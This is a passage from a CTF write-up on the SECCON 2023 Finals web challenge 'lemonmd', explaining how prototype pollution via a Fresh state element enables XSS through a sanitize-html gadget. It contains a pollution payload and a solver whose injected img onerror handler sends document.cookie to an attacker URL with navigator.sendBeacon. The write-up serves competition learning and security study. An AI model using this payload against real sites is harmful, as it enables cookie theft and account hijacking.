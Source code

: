 For instance, if you input the following Markdown:
```html
<h1 id="__FRSH_STATE">{"v":{"bar":"foo"},"r":[[["bar"],["constructor","prototype","polluted"]]]}</h1>
```

![](/images/2023/20231228_seccon-ctf-finals-lemonmd-05.png)

The `polluted` property is polluted to `"foo"`:
![](/images/2023/20231228_seccon-ctf-finals-lemonmd-06.png)

#### Step 3: Prototype Pollution Gadgets to XSS

The rest work you should do is finding a PP gadget to enable XSS attacks.

My solution used a known PP gadget for sanitize-html:

- `({})["*"]` -> `["onerror"]`
    - To allow `onerror` attribute for sanitization and enable XSS attacks.
    - FYI: https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/

There seemed to be teams that polluted `disableHtmlSanitization` as a PP gadget:

- Writeups by icchy from `:(` (This is a team name):
    - https://gist.github.com/icchy/ace0030201354729e0f2beedb362733d

### Solver

Finally, the following Markdown causes XSS and leaks the flag cookie:
```javascript
const text = `<h1 id="__FRSH_STATE">${JSON.stringify({
  v: {
    0: [
      {
        text: {
          _f: "s",
          v: `&lt;img src=0 onerror="navigator.sendBeacon('${ATTACKER_BASE_URL}', document.cookie)"&gt;`,
        },
      },
    ],
    "*": ["onerror"],
  },
  r: [[["*"], ["constructor", "prototype", "*"]]],
})}</h1>`;
```

Here is my full exploit:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202312_SECCON_CTF_2023_Finals/web/lemonmd/solver/

### Flag


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/